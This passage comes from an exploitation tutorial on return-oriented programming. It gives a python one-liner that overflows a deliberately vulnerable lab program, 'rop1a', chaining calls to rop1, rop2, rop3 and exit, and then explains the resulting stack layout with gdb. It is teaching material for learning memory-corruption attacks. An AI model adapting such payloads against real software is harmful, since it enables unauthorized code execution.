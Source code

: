 ### Exploit

We can now construct the full payload in python and send it to our vulnerable program `rop1a` like this:

```python
./rop1a "$(python -c 'print "A"*108 + "BBBB" + "\xa9\x61\x55\x56" + "\xd4\x61\x55\x56" + "\xff\x61\x55\x56" +  "\x50\x29\xe0\xf7"')"
```

If we execute it, we can see that`rop1`, `rop2` and `rop3` functions are called successfully as they each call their respective `printf()` statements:

![1st ROP chain in action](../../../.gitbook/assets/rop-chain-exploit.gif)

Note how the program did not crash with some segfault - this is because `rop3` called `exit` upon return. To re-inforce this understanding, we will see how that came to be in the below section.

### Inspecting the Stack Layout

Let's explore the stack layout of the vulnerable program `rop1a` when the `vulnerable()` function gets exploited and is about to return after it completes executing - when the CPU is about to execute the `ret` instruction.

Below screenshot shows the initial diagram on the left, indicating how we needed the stack to look like during the exploitation and gdb screenshots on the right, that confirm we successfully built the required stack:

![Stack layout during vulnerable function's execution](<../../../.gitbook/assets/image (958).png>)

